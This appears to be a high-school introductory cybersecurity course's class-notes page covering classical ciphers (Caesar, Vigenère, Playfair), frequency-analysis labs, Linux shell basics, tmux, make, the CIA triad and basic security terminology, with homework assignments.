Aged twenty six, Vigenere was sent to Rome on a diplomatic mission. It was here that he became acquainted with the writings of Alberti, Trithemius and Porta, and his interest in cryptography was ignited. For many years, cryptography was nothing more than a tool that helped him his diplomatic work, but at the age of thirty nine, Vigènere decided that he had amassed enough money to be able to abandon his career and concentrate on a life of study. It was only then that he began research into a new cipher.
Now let us look at two ciphertexts.
The first one is encrypted with a monoalphabetic cipher:
ETYR QVYIQX OBW, UBTYIYMY VEO OYIQ QJ MJHY JI E RBKGJHEQBC HBOOBJI. BQ VEO AYMY QAEQ AY NYCEHY ECLSEBIQYR VBQA QAY VMBQBITO JP EGNYMQB, QMBQAYHBSO EIR KJMQE, EIR ABO BIQYMYOQ BI CMXKQJTMEKAX VEO BTIBQYR. PJM HEIX XYEMO, CMXKQJTMEKAX VEO IJQABIT HJMY QAEI E QJJG QAEQ AYGKYR ABH ABO RBKGJHEQBC VJMF, NSQ EQ QAY ETY JP QABMQX IBIY, UBTYIYMY RYCBRYR QAEQ AY AER EHEOOYR YIJSTA HJIYX QJ NY ENGY QJ ENEIRJI ABO CEMYYM EIR CJICYIQMEQY JI E GBPY JP OQSRX. BQ VEO JIGX QAYI QAEQ AY NYTEI MYOYEMCA BIQJ E IYV CBKAYM.
The second is encrypted with a vigenere cipher
ETGU RLXRGA JGM, OMTGECGX ANU JCCM XB TFKT HR N FZNAHQNVZA BBWFKFL. XM ANU YCGX XUCK FT UIPCDC PVUHCZLIXH JKKF IAI JTZRXGKF QW YAUIEVZ, RGBXUGDGJL EAF GMGME, NPU FXL MAVVPTLX VP TPNIXBIIYEAC JCJ GVGMGGU. DDK QNPP WTTVF, EIWEMSTTRNWR ANU EMIAMAI DMGX XUCE Y IHSY VYYI AIYRVB WBQ UKJ BXIPBORRXV ABTB, ZJM EG VYC PZI BH KFXKXL PZLT, OMTGECGX HREZBTW XUCK FT AEQ CDYHLIQ GEMJZL ZQECN MS OG RZAX XB CSYCWSA JZQ RTVRGI YCW GBPTCCMVNVV MC T PVHV MU LXHFP. GI PEF QEJN MLRP KFPM LR DVEPG VRUVYGVL VPKM P GIJ EZNWXV
Assuming you ran frequency analysis on these texts and generate graphs, you could see the following:
letter distribution of plaintext:
letter distribution of monoalphabetic cipher:
letter distribution of vigenere cipher:
Shortcomings of Vigenere cypher
An attacker that knows the length of the key (or calculates it based on the distance between common can then break the cipher by analyzing subsets of letters. If the key length is 3, then you can make three groups of letters, and those groups will all have the same frequency patterns as normal text.
Repetitions in Ciphertext are a weakness:
It is not difficult to find the length of the key when keys are sufficiently short. Searching for blocks of ciphertext that look the same we can assume they are the same plaintext (for sufficiently large blocks of matching text, clearly not every pair of matching letters is the same plaintext.)
This is because repetition in the plaintext, could align with the same letters of the key:
Example:
"say you say me say it now" (plaintext)
"paperpaperpaperpaperpaper" (key)
Two of the words "say" ("say you say me say it now") align with "pap" thus they will have the same ciphertext
VHVSSPQUCEMRVBVBBBVHVSURQGIBDUGRNICJQUCERVUAXSSR ^ ^ ^ ^ 0 6 18 36
The distance between the repetitions of VHVS is 18.
The key length could be 18, 9, 6, 3, 2 or 1 character long.
The distance between the repetitions of QUCE is 30 characters.
The key length could be 30, 15, 10, 6, 5, 3, 2 or 1 character long.
By taking the intersection of those sets, one could safely conclude that the most likely key length is 6 since 3, 2, and 1 are unrealistically short.
Use longer keys!
Frequency analysis fails when the key is a large fraction of the message, certainly when the key is equal in length to the message.
Computers can do it too!
On paper a lookup table is faster for humans.
Think about how a computer program could be implemented.
In effect, the index of each row in the table tells you
how many characters to shift each letter of the plaintext by.
Row (A) is 0, so there is no rotation,
row (B) is 1, so you rotate left by 1.
row (C) is 2, so you rotate left by 2,etc.
BSBFXDXEYAFITW
Crack Vigenere
Here is some well known text encrypted with a Vigenere cypher (using a reasonably short key relative to the text size):
DVYCNZVJIHNVMNBDFTRRSNNXPIRMFMZZOYUFXGBEHKEVDDFVMTURWDAXMDGKMZBIOJZFOZLZOHLGVMFVBIQEPOUZOBCRSOVTVGNIUJVEUZEVTOZVPIFYPMRZUCBLHCGZXJHCENNZMVOFVONCJOGCFVAUTZRKIZJRUZEPQVEKPAGYFRBIMYVKJNNNBTVYBQRFGYEZWDAXPASKIZFGMZREBIQIFBHCBOVEHOUVDDETVGNKJJANIZAVWZEZGDAUNTFVMATIPRVEHBEZNVOFVOGYFHBLUCJYFIRMFMVKJNNUBHCUSDMQMTAFWZZSFMVENTFFVGJYFIRMFMVWJIQDZNRCGDAMPGHEUVEZMTCRVNVEHWRWPMRTPASZORNIFCBLTZFROYOIJITZOBHGUCRIFVEFGZIVSTSLOZERMDZVFONEEZFGFXVRMGLNIZAVWZEDZCLGPNTVUNHTIVALQKRIIVAUPAZVUCNKJOEVRPVIFNNJUMBEHHBIBGCIJIPZQGRKPKEVWZAKNZSIPHQVMDOVSVGVMTFKFKCZOBVEUJGYFNGIFZGROYZVUCBUJXNCMTXEPXXZOBCVPKYVTCNKTJSWUCREJVPTPPAKJOUZHCGZNZGFHZGKPNRRBNFFPINJJXNEUCVJJNZPTPOJUDGLUZSFSKVJUJYROYORMGJZUCNGIDYFTJCYJXNCGGBLSDFYDVGFUCEFXNUZNNRCGPCFOCVJTRBIEDDLJZGCZONBFOBKIZFYJKGYFMRZTIBKIDAXTPEGSDFZOBVEUCVJJAGYFTOLUFAVXDGRMHBJUVYCNZAZOOUVJMQVHMRVTJZVUDZVPMBKIZETIZEZTCIVSTAVBMYPUCRJBHRWFZYZOBFKPRNIENGYFJPVBIJZUCZVUCRIFIBNJNLFVMVETPYRSXVKZJSKIZZROCNKUJRJCZYKFYEFVIQSZRURSQRJBNVEEDNEJNYVTWLTPMNCSZRWTXBDNZETFNHISJHEENVKXDGYIZEJVMSIJBUKBIQCFAGKIZFKSZRKTONBFTBLXVGVSRNIEDGJFSGIFHRUPRAKPRAZTOUVCVGKFMLNIZEVUCNKOJOCFHBCFDFNBNUVEWLNBQRJBIQTPJYVEWLSSZRQFNJYJXURGZJYPPEJQMRMJJHJXZEVPPGFGNVXIOBWMVAUMJBBBOGYFXEFXYFFGRNKFMTRAZEJUCRIF
Goals:
- Find repeating groups of letters. (This is not a code exercise! Search by eye for repeated strings, or use control-F (search))
- Calculate the distance between the matching strings.(use a programming language)
- Try to find the key length by finding the overlapping common factors of the distances. (do this manually)
- Break the text into key-length different piles (use a programming language, but python slices are super easy!)
- Run your ceasar cracker from your 1st lab to get decoded strings.
- Merge the decoded strings back together (use a programming language)
Homework (google classroom post)
Deliverables:
- What is the key? (letters or rotation numbers is fine)
- What is the decrypted message?
- Show the new code you wrote that was not part of lab1.
- Submit this as a plain text file on google classroom with your name / date on top.
2022-03-07
Polyalphabetic ciphers
Multiple monoalphabetic ciphers are used to encrypt There are rules to determine when to use each one. The result of this is that two letters that are the same in the ciphertext do not have to be the same in plaintext.
Simple example:
Even positioned letters shift up by one. Odd positioned letters shift down by one.
Plaintext:
meet me at the hot dog stand
Ciphertext:
ndfs nd bs ugf gps enh ruzoc
In this cipher:
a can be either b or z
e can be either d or f
Playfair Cipher:
This uses a 5x5 table of letters which acts as the key. This means one letter must be omitted, often the I and J are combined, or Q is left out.
Example: P L A Y F I R E X M B C D G H K N O Q S T U V W Z
The word is then broken up into groups of two letters, and then those pairs are converted into ciphertext using the table.
- If the letters are on the same column, use the letters to their right to replace them.
- If the letters are on the same row, use the letters below them to replace them.
- If the letters are different, replace them with the letters on the same row, but in the column of the other letter (it would make a rectangle)
- If the letters are the same, replace the 2nd one with a Q (or X) and then encrypt using the prior rules. (The least frequent letter is used for this to make it obvious when decrypting as double letters are much more common than Q.)
Let us use this to encrypt a short message:
Whitehat
Look at pairs of letters:
WH IT EH AT
Imagine the 2 plaintext letters WH are opposite corners of a rectangle, that pair of letters will be substituted with the letters in the other opposite corners
P L A Y F I R E X M B C D G H K N O Q S T U V W Z
WH becomes ZG
IT becomes RU (vertical letters use the ones to the right)
EH becomes MD
AT becomes PV
Result:
ZGRUMDPV
Decrypt using the opposite operations. First break up the ciphertext in to pairs: ZG RU MD PV, then run the same rules, except vertical goes left /horizontal goes up.
Other Polyalphabetic Ciphers
Basic understanding: What does having multiple alphabetic substitutions do to prevent the code from being broken?
Creative: How could we design a more secure Polyalphabetic cipher?
Homework:
Now that you know about Polyalphabetic ciphers it is time to learn about the Enigma machine
The Enigma code is one of the most famous ciphers, and the way that it works and how it was decoded is complicated but hopefully intersting.
PerusallYou will complete the Perusall assignment on this topic, which has a couple of videos. Required annotations over both days: 6.
You must Watch and comment today, then go back and respond to other comments the next day. Your scores on this should be viewable within minutes of you contributing, so go back and discuss more if you don't have full credit.
Monoalphabetic
2022-03-01
Monoalphabetic cipher is one where each symbol in plain text is mapped to a fixed symbol in cipher text. The substitution not depend on the position of the plain text character, there is just a one to one mapping based on a single alphabetic key.
Examples of monoalphabetic ciphers would include the Caesar-shift cipher, where each letter is shifted based on a numeric key, and the atbash cipher, where each letter is mapped to the letter symmetric to it about the center of the alphabet (reversed). Rot13 is a Caesar-shift cipher where the key is 13.
There are many different monoalphabetic substitution ciphers, in fact infinitely many, as each letter can be encrypted to any symbol, not just another letter.
Simple substitution
You can use a single word as a key:
Plaintext alphabet
ABCDEFGHIJKLMNOPQRSTUVWXYZ
Ciphertext alphabet
ZEBRASCDFGHIJKLMNOPQTUVWXY
Usually the ciphertext is written out in blocks of fixed length, omitting punctuation and spaces to disguise word boundaries from the plaintext.
Plaintext: "we are discovered!"
Ciphertext: "VA ZOA RFPBLUAOAR!"
Ciphertext in groups of 5 letters
VAZOA RFPBL UAOAR
Lab01 - Monoalphabetic ciphers
Pre-Lab:Create a git repo for all of your cybersecurity labs. Make it private. Add me as a collaborator so that I can view it.
Make a directory Lab01-monocypher inside your repository. Each lab will be a separate top level directory.
Part 1.1
Write a program that when given source text filename, analyzes letter frequency contained in that file.
Letter frequency should ignore case (both lower and uppercase are counted), and punctuation/special characters are completely discarded from the calculationss. The denominator of the frequency should be the total number of letters.
Assume the text uses the English alphabet to simplify our programs.
Print out each letter and the frequency in the format:
A 0.0452
B 0.0023
C 0.0013
D 0.00024
...
X 0.0
Y 0.0005
Z 0.0003
I strongly suggest you have a function that returns a list of the 26 frequencies in order, to make the next part easier. A dictionary is also reasonable.
Try using it on alice in wonderland: https://gist.githubusercontent.com/phillipj/4944029/raw/75ba2243dd5ec2875f629bf5d79f6c1e4b5a8b46/alice_in_wonderland.txt
You should see percentages like:

STOP! Check your 1.1
Your lab01 part 1.1 should work like this:
$make frequency ARGS="inputFileName"
e.g.
$make frequency ARGS="alice.txt"
This enables a standard interface no matter what langage you use
Part 1.2
Write a program that when given two filenames, calculate the distance between two different sets of letter frequencies of each file.
For the example below, we will pretend we only have letters, a,b,c,d.
Given text1 has frequencies [0.2, 0.2, 0.2, 0.2] and text2 has frequencies [0.2, 0.25, 0.06, 0.29]
The distance is sqrt ( (.2 - .2) 2 + (.2 - .25) 2 + (.2 - .06) 2 + (.2 - .29) 2 )
The result of which is sqrt(0.0302), so the distance is: 0.173781
STOP! Check your 1.2
Your lab01 part 1.2 should work like this:
$make distance ARGS="inputFileName1 inputFileName2"
e.g.
$make distance ARGS="alice.txt other.txt"
Part 1.3
Write a program that when given a ciphertext filename, that contains a Caesar ciphered text analyzes letter frequency contained in that file, and deocdes the message automatically. Printing a single decodede message.
This will work with sufficiently long ciphertexts, but short messages may not work well.
Your methodology should be to calculate the frequency of letters, and find the rotation that is closest to English using your prior distance method.
Note:You should ALSO include reversed alphabet and reverse shifted alphabets.
Punctuation and spaces are ignored for your frequency calculations, but is kept when decoding.
STOP! Check your 1.3
Your lab01 part 1.3 should work like this:
$make decode ARGS="inputFileName"
e.g.
$make decode ARGS="message.txt"
Sample messages to try to decode:
- Znoy skznuj corr sujole znk gxxge gtj tuz xkzaxt gteznotm.
- Drp Kyv Wfitv Sv Nzky Pfl
- Ftueuemomqemdoubtqdfqjf
- Jmqi rhybbyw, qdt jxu ibyjxo jelui. Tyt wohu qdt wycrbu yd jxu mqru: Qbb cycio muhu jxu rehewelui, Qdt jxu cecu hqjxi ekjwhqru.
The last one should look like: "Twas brillig, and the slithy toves. Did gyre and gimble in the wabe: All mimsy were the borogoves, And the mome raths outgrabe."
Not all messages will auto decode correctly depending on the text length and letters.
e.g. "jg upnro xo dla otqgpo" would NOT auto decode to: "ur faycz iz owl zebraz"
Cryptography
2022-02-28
Useful prerequisites:
Binary Decimal and Hexadecimal
| Decimal | Binary | Hexadecimal |
|---|---|---|
| 00 | 0000 | 00 |
| 01 | 0001 | 01 |
| 02 | 0010 | 02 |
| 03 | 0011 | 03 |
| 04 | 0100 | 04 |
| 05 | 0101 | 05 |
| 06 | 0110 | 06 |
| 07 | 0111 | 07 |
| 08 | 1000 | 08 |
| 09 | 1001 | 09 |
| 10 | 1010 | 0A |
| 11 | 1011 | 0B |
| 12 | 1100 | 0C |
| 13 | 1101 | 0D |
| 14 | 1110 | 0E |
| 15 | 1111 | 0F |
| 16 | 10000 | 10 |
| … | … | … |
| 727630 | 10110001101001001110 | B1A4E |
It is much easier to convert from hexadecimal to and from binary instead of using decimal:
1010 0111 A7 (1010 0111 break it up into groups of 4)
1111 0000 1111 F0F
0100 1011 1111 0010 4BF2
0111 1010 0101 0000 0100 7A504
What use is this?
- Color Codes
- Mac addresses
- modifying binary files
- etc
Encryption:
Encryption is the process of converting readable data into a format that is not understood by any unauthorized person.
Decrypting the file requires access to a key/password.
The purpose of encryption is protecting sensitive information when being transmitted or stored.
Plain Text / Clear Text - Unencrypted, human-readable text. This is the data you wan to encrypt.
Cipher - The algorithm used to encrypt data.
Cipher Text - The encrypted text formatted by an encryption algorithm that is no longer human-readable.
Encryption Key - The second piece of information used by the encryption algorithm to encrypt and potentially decrypt the data later.
Properties of good cryptographic functions:
Keep these in mind when looking at the different methods of encryption. These characteristics prevent patterns from being used to analyze the ciphertext.
- Cipher text must be completely random.
- Cipher text cannot be related to the plain text or it's distribution of characters.
- Cipher text cannot be related to the key or its characters.
- Small changes in the key should completely change the cipher text.
- Small changes in the plain text should completely change the cipher text.
2022-02-17
Test your terminal powers!
Do Now:
Log in while you figure this out:
How do you: Print last 5 lines of a file?
How do you: Print the 25th line of a file?
Reminder why this matters:
Whether you are performing cybersecurity analysis, response, forensics or administration, you will need many different Linux commands.
Since many of these commands can be reused in the future, you should always consider putting them within BASH shell scripts that you can save for later use.
A bash script is just a text file with your commands written in the file:
#!/bin/bash
echo -e "Please enter your name: "
read name
echo "Nice to meet you $name"
You may remember from intro2 the use of #!/usr/bin/python on the lab machines will make the script run by python.
A shell script or bash script will be run by bash or some other shell (zsh, fish, etc.). To make that happen just do the following:
- save your script in a file e.g.
script.sh - make sure it is chmodded:
chmod + x script.sh(this needs to be done only once per new file) - Run the script by typing the file name prefixed with a "./" e.g.
./script.sh
Bash cheat sheet here: https://devhints.io/bash
One new thing:
In bash ** will match all files and directories in the current directory and subdirectories, whereas * only matches files and directories in the current directory. (In both cases "dot files", those with names starting with ., are not matched).
This is useful if you need to match
Try the following challenge.
https://cmdchallenge.com/#/hello_world
If you know your terminal commands, you should be able to get up to "delete_files" fairly easily.
If you DON'T know how to do it, use the --help flag on the commands. Avoid clicking "show answer", if you do that, you might as well just not do the activity.
Complete up to
count_string_in_line
Skip these problems:
- https://cmdchallenge.com/#/create_symlink you would need to know about symlinks
- https://cmdchallenge.com/#/extract_ip_addresses regex is nice here
2022-02-16
Linux Fundamentals
You should have been able to get through linux fundamentalspart1 yesterday.
Classwork
I will give you time at the end of class, but by no later than 4pm, please fill out this form: https://forms.gle/hDfJpxcTcDRPCZV78
Homework:
Second: linux fundamentals part 1
https://tryhackme.com/room/linuxfundamentalspart2Tmux Concepts
Using the shell can be powerful, but there are tools that make it more powerful!
Tmux is a tool that lets you split your terminal into multiple windows/panes and keep your excact terminal configuration after you disconnect from a server
Tmux specifics
Tmux has sessions, windows, and panes.
Tmux can have multiple sessions, a session can have multiple windows, a window can have multiple panes. On the server, users could follow certain conventions or rules to manage Tmux. For example, we could create a session for a specific project. In the project session, we could create multiple windows, and each window would be used for each specific task for the project. In the window, in order to finish the task more efficiently, we create multiple panes.
Think of session as a browser, each window is a browser tab, and each pane is a section of that browser tab.
Alternatively think of having 2 terminals taking up half the screen each, those terminals are each a pane, and the entire screen is a window.
Sessions are used to separate the tasks you are doing to help you orghanize and keep you from mixing up what you are trying to do.
Tmux interface
Tmux has its own terminal and can show you multiple terminals for the computer
We use hotkeys to issue commands directly to tmux so Tmux knows when to do things. All the hotkeys are prefixed by Ctrl + b.
Sessions
In the local terminal, we create Tmux sessions by simply running one of the following three equivalent commands.
$ tmux $ tmux new $ tmux new-session
This will create a new session to the existing Tmux. If there is no previous Tmux session running, this will create the first Tmux session.
Detach Sessions
To return to the local terminal from Tmux sessions, we usually do detach by hitting Ctrl + b + d. Everything would be still running in the backend. Beware: Using the exit command will actually close your tmux sessions and not the correct way to detach if you want to resume later.
View Sessions
To list all of the Tmux sessions from on the local machine, run one of the following commands.
$ tmux ls $ tmux list-sessions
Kill Sessions
To kill all sessions, from the local terminal, we run the following command.
$ tmux kill-serverTo kill specific sessions, from the local terminal, we run the following command.
$ tmux kill-session -t [session-name]
Attach Sessions
To attach to specific sessions, from the local terminal, we run the following command.$ tmux attach -t [session-name]
Create/Close Windows
In Tmux session, we could have multiple windows. To create a window, in the Tmux terminal, we hit Ctrl + b + c. To kill the current window, in the Tmux terminal, we hit Ctrl + b + &
Select Windows
Each window in the session, regardless of whether it has a name or not (actually its default name is always bash), would have a window id of natural integer 0, 1, etc. We select specific window by hitting Ctrl + b + window id.
Create/Close Panes
Each window in the session could have multiple panes, just like Gnome Terminator. To split the pane vertically, we hit Ctrl + b + %. To split the pane horizontally, we hit Ctrl + b + ". To close the current pane, we we hit Ctrl + b + x.
To toggle between panes in the window, we simply hit Ctrl + b + ARROW_KEY (up/down/left/right)
A reference sheet!
Check out: https://www.shortcutfoo.com/app/dojos/tmux/cheatsheet
Things to try with tmux
- Split your window into two panes, left and right
- have the right pane open a text editor (nano/vim/emacs). Write a short program, then have the right pane run the code you edited
- try sshing
2022-02-15
Discussion of stuxnet
Zero-day exploits/vulnerabilities are not yet patched. They may or may not be known by the white hat community.
Similarity algorithms
Remaining questions
What can you do in 64k?
People try to make really elaborate demos (sound animation and such) in 64 kilobytes. One such demo is here: https://www.youtube.com/watch?v=yei3mJm33SQ
Quiz
I need to give y'all a quiz becuse I do have to assess what you learned in the class. The topics in the notes, as well as terminal related things are all fair game.
I will not ask these questions as they are too basic: (also they help you answer eachother... especially the first one)
The purpose of this is to let you know you don't remember anything from the notes/readings/tutorials, and need to remember them.
Practice right now:
1 In cybersecurity, what does CIA stand for?
- Confidentiality, Integrity, Availability
- Central Intelligence Agency
- Cybersecurity Investigation Agency
- Cybersecurity, Internet, Accessibility
2 What does confidentiality of data refer to?
- Rules which allow access only to all parties
- Rules which hide data
- Rules which restrict access only to those who need to know
- Rules which prevent data from being changed
3 Integrity of data is The level of assurance which can be given as to how:
- structured data is
- accurate and trustworthy data is
- how strong data is
- how relevant the data is
4 What was the method of delivery of the stuxnet worm:
- phishing emails
- vulnerability in a web server
- flash drives
- weak passwords
- trained mice
This question is not too easy:
5 Which of the following would count the number of files/directories containing the substring "abc":
- ls -a | grep "abc" | wc
- ls -a | wc | grep "abc"
- ls -l | wc | grep "abc"
- ls -l | grep "abc" | wc
- ls -al | grep "abc" | wc
- ls -al | wc | grep "abc"
Try hack me
Some of the cybersecurity resources will be on a site https://tryhackme.com
In a nutshell you use an attack box (your computer) to try to hack a target machine (their vulnerable computer)
Alternatively you can use the tryhackme attack box. This is just their machine that you pretend is yours for the purpose of attacking.
You just need a browser to access this resource.
VPN
There are many reasons to use a vpn which we will discuss later.
I strongly urge you to configure YOUR personal devices to use the tools we learn about.
Try hack me allow you to use their machine to complete tasks, but I do NOT suggest this method.
They limit you to only 1 hour of using their attack box usage per day. You should keep that as an option in an emergency, but due to the time limit it should not be relied upon.
Critically when you want to hack a target that is NOT a try hack me room, you cannot use the tryhackme attack box!
Try hack me first assignment:
You will start with some basic linux ones to start, so they should be very easy.
First: tutorial
https://tryhackme.com/room/tutorialYou should look at how to use a vpn here https://tryhackme.com/access?o=vpn
Second: linux fundamentals part 1
https://tryhackme.com/room/linuxfundamentalspart12022-02-14
Software you probably need to know about
You will have to learn how to install a variety of tools. Installations are specific to your OS, but you can just follow the directions in most cases.
Windows Users:
windows 10 or 11 let you run linux in a window: WSL(windows subsystem for linux)
If you don't want to use linux and want to install tools to use with powershell, then look into chocolatey
sudo
sudo is a program already installed on unix and linux operating systems that enables users to run programs with the security privileges of another user, by default the superuser.
You do NOT have sudo permission on the school system, but you do on your personal devices, and on your WSL installation.
Windows does not have an equivalent command.
grep
Regarding grep: g/re/p Globally search for a Rgular Expression and Print matching lines
grep is a great filtering tool to help reduce large outputs to just the parts you care about.
Python
Both Python 2 and 3 are very useful. Some programs only exist in one version or the other, so it is always helpful to be able to use either.
Even if you do not plan on coding in python it is important to be able to run commands in both python 2 and 3. When you install both, you must be careful which you are actually running.
When writing scripts you should explicitly call python2 or python3 rather than assume that python will call the correct version!
VPN
We will be using openVPN for accessing some cybersecurity resources.
Make
make is a command that we will be using for labs. If you use windows your gitbash doesn't have this tool.
On windows you have to download Make for windows
On wsl or linux you can just run: sudo apt-get install build-essential
Using make
Make is a program to easily run other programs!
Makefiles
To use make, you will need to be very careful with tabs vs spaces.
syntax of a typical rule: (note tabs won't display as tabs in a website, so aways use 1 tab to indicate a recipe)
target: prerequisites
<TAB>recipe
targe2t: prerequisites
<TAB>recipe2
That is the tab character (tab key), not the symbols written.
Examples of makefiles:
Note: these examples are not correct because websites don't display my tabs properly. Everything should be left justified or tabbed over once!
run:
python2 file.py
A simple recipe to run a command:
say_hello:
echo "Hello World"
Now run the file by typing make inside the directory that contains the makefile. The output will be:
$ make
echo "Hello World"
Hello World
$
You can put comments at the top of your makefile. You can also make multiple targets. The first target is the "default"
# Usage:
# make : compile all binary
# make clean : remove ALL binaries and objects
default:
javac *.java
clean:
rm *.class
You can pass arguments into your programs using makefile too!
# Usage:
# make run ARGS=filename
default:
echo "example: make run ARGS=textfile.txt"
run:
python File.py $(ARGS)
Cybersecurity Jargon II and the CIA triad
2021/02/11
CIA Triad:
Confidentiality:
Only authorized users and processes should be able to access or modify data. Some related terms to follow:
Most operating systems enforce confidentiality in this sense by having many files only accessible by their creators or an admin, for instance. One way to enforce confidentiality is need-to-know data access. If you only have access to what you need, hacked accounts, or rogue users can't compromise all of the data, just a subset.
Authentication is when a system determines if a user is who they say they are. E.g. passwords/biometrics/cryptographic keys/keycards etc.
Authorization determining who has the right to access which data.
Encryption - the process of converting information or data into a code that can only be reversed or read by authorized people. We will discuss this in great detail later.
Integrity:
Data should be maintained in a correct state and it should not be able to be improperly modified, neither accidentally nor maliciously.
Data integrity is protected through a variety of ways:
- auditing that the data hasn't changed,
- digital signatures/certificates to verify the authenticity,
- version control to track changes in data over time,
- and of course the various forms of confidentiality.
Non-repudiation: Assurance that the sender of information is provided with proof of delivery and the recipient is provided with proof of the sender's identity, so neither can later deny having processed the information e.g. When using digital signatures: You cannot deny that you authored an email and the recipient cannot say an email was different from the one sent to you. This helps support the integrity
Availability:
users should be able to access data whenever they need to do so
Many reasons that are not attacks can limit availability such as:
- hardware failure,
- internet or electrical failure,
- disasters both natural and human created.
Countermeasures to help ensure availability include:
- redundancy (in servers, networks, applications, and services),
- hardware fault tolerance (for servers and storage),
- regular software patching and system upgrades,
- backups,
- comprehensive disaster recovery plans,
- denial-of-service protection solutions.
Cyber-Jargon
2022-02-10
Hacking
The original use of the term hacker dates back to 1950-1960s at MIT. Students there enjoyed learning about and experimenting with technology. A hack was something innovative/ingenious in the arena of computers and technology. This positive connotation exists today in expressions like "life hacks" "cooking hacks" etc. This has evolved somewhat, and it is sometimes confusing because 'hacker' can have a positive or negative connotation.
Today the term hacking is often associated with a computer or security hacker. They still use their knowledge of the system to overcome obstacles!
Hackers can be classified into three different categories:
- White Hat - Ethical Hackers. The "good guys" that use their skills to help protect against attacks / find and report vulnerabilities / design secure systems etc. They have permission to try to hack into and detect vulnerabilities. They act in an open and professional manner to differentiate themselves from malicious hackers.
- Black Hat - Malicious Hackers. The "bad guys" that use their skills for malicious purposes. They can steal money and information or damage systems.
- Grey Hat - They do not have permission to gain access to a company's system or products, but find exploits with the intent of highlighting the problem. (often seeking a bounty/reward for doing so) They do not have malicious intent but their actions may be illegal.
Terminology
Threat - A possible danger that might harm systems or an organization.
Vulnerability - a weakness that can be used to perform unauthorized actions.
Exploit - The software or commands used to take advantage of a vulnerability.
Attack - The use of an exploit, or the act of compromising a system/service.
Attacker - The person or group that are running the exploit, the hacker(s).
Identity Theft
A crime where an attacker uses information that identifies a person for personal gain.
Data At Risk:
- Name, Address, Phone number,
- DOB, SSN
- Credit Card / Bank info
- Driver's License / Passport
- Loss of money: Bank / Credit card fraud
- Actual Identity: Government ID or document theft/usage
How data is obtained:
Hacking Hackers that gain access to your information can steal it. Data can be stolen from:
- businesses you deal with
- Personal or work machines/devices
Phishing - You are tricked into visiting a website that looks like a reputable one, but is a copy that is designed to steal your credentials. (e.g. pretending to be an elderly grandparent that wants to contact their grandchild to make a phone company reveal information about a victim)
Physical Theft - Someone steals your information by stealing your documents, technology. (e.g. wallet, phone, computer)
Social Engineering:
- When someone tries to trick people (you or even the employees of a business you deal with) by using emotional stories to get private information.
- The attacker tries to manipulate the emotions of a victim to reveal information or break the policies in place to secure your data. (e.g. reset a password or reveal a pin)
- The attacker could also:
- eavesdrop on a conversation or look at what you are typing on a computer
- Go through your garbage for information
- send email, snail mail, or instant messages to trick you using other data gathered (e.g. using you your account number or other personal data to make you believe they are someone else)
2022-02-09
Homework
at the end of this post.
prerequisite terminal skills:
- Opening a terminal
- Creating folders and files
- Moving and manipulating files
- Using SSH to run commands on another computer
If you feel you do not have these skills at this point, please refresh your memory here: https://ubuntu.com/tutorials/command-line-for-beginners#1-overview
For now you can skip section 7 "The command line and the superuser"
We will talk about section 6 "A bit of plumbing" today.
Passwords
A minor detour from applied terminal skills is why you need good passwords.
Password representation
Hashing (more on this later)
Easy passwords / reused passwords
Change your password.
Everyone needs to ssh onto the password server and change their password.
Instructions provided in class.
Plumbing
The linux system has a large variety of commands that do small things. By combining these tools you can accomplish a very large variety of results.
ls lists files and directories but has many flags to make it more useful.
wc counts the number of lines, words and characters in a block of text.
sort will sort a block of text alphabetically
uniq can replace duplicate entries with a single entery, and optionally count the number of repeats
Demo From Class:
You can give a command parameters:
cowsay Moooo!
Or you can pipe | commands into another command:
fortune | cowsay
You can pipe the output of several program into eachother:
fortune | cowsay | lolcat
You can also use loops on the shell:
while true; do date '+%D %T' | toilet -f term -F border | lolcat; sleep 1; done
Homework
Attempt 2 at scavenger hunt:
https://github.com/pushingice/scavenger-hunt
Do this on your home computer, OR ssh into the school computers.
If you do this on the school computers (avoid using marge, so you can ssh onto: 149.89.161.1XX where xx is > 00), make a directory in /tmp/ such as /tmp/YOUR_USERNAME/ and clone the scavenger hunt there, in case multiple people try the same machine.
Recreate the scavenger hunt with the same starting value as last time (seed value)
Submit on google classroom:
Plain text document containing, your name, seed, and all 12 of your clues in the format:
Last,First
seed
hint,folder,clueText
hint,folder,clueText
...
explanation at the end
After 12, please write an explanation of how easy/hard the hunt was for you, and if you used any particularly innovative ways to find the solution
e.g.
Smith,Kenji
90210
1,12345,none
2,50240,8
...(more lines)
12,20042,????
It was hard until I decided to used magic! The magic of the terminal! (not a good response)
Try your best, and don't worry if you get stuck! (but do put in a reasonable effort)
2022-02-08
Classwork
Scavenger hunt?!?!?
SSH
ssh username@hostAddress
The machines in this lab are all open to be ssh'ed using your STUYCS accounts. If you forget to include your ssh
Marge is
149.89.161.100
All other machines are:
149.89.161.1xxwhere xx is 01,02,03,... 31,32
Scavenger hunt!
You can have more than one terminal open, for example one to display your information, and one to type commands into python.
YOU MUST NOT CLONE THIS IN YOUR HOME DIRECTORY!!!!
Try this:
cd /tmp/;git clone https://github.com/pushingice/scavenger-hunt.gitIf you get lost please use:
cd /tmp/scavenger-hunt
2022-02-07
Homework
Join the google classroom code : z6cdpp4
Join the perusall: https://app.perusall.com Join code: SAMUEL-HBF93
Shell Familiarity
Depending on your teachers you may have different amounts of experience with the linux shell. Mac/Linux uses already have a shell installed. (And presumably git)
Windows users would benefit from installing git and its included git-bash shell.
GitForWindows.org"You should also re-familiarize yourself with:
https://ubuntu.com/tutorials/command-line-for-beginners#1-overviewCommon Problems
Often typing commands that you know, will cause results you do not expect.
Echo is a simple command that prints to the terminal whatever text you give it.
$ echo hello, goodbye
hello, goodbye
$ echo "hello, goodbye"
hello, goodbye
$
But if you mistype it:
$ echo "hello, goodbye
>
Oh No! You are stuck!
There are several ways to fix this. One is to close your quotations, the other is to press Ctrl-C and ending the command.
Your 2nd best friend: ctrl-c
Here are some examples of commands that will make your terminal get stuck in some way:- $ echo "hello
- $ grep foobar
- $ yes
- $ tail
- $ cat
In every case, the solution is the same: hit Ctrl-C (pronounced "control-see"). Ctrl-C is sometimes written as ⌃C
- Overview
- A brief history lesson
- Opening a terminal
- Creating folders and files
- Moving and manipulating files
- A bit of plumbing
Your best friend: Tab (the key above capslock)
When typing commands into the shell, many shells will allow for some form of autocompletion. The tab key triggers the auto complete functionality.
Skill stacks
2022-02-03
There are many different very deep categories of knowledge in cybersecurity. It could take years to master just one of these. Each of these stacks can be broken down into many components… Many of these fields do not require you to be the best at math, or coding!
Networking
|
System Administration
|
Digital Security
|
Audit & Compliance
|
Forensics
|
Command Line
|
Reverse Engineering
|
Cyber Operations
|
Some definitions
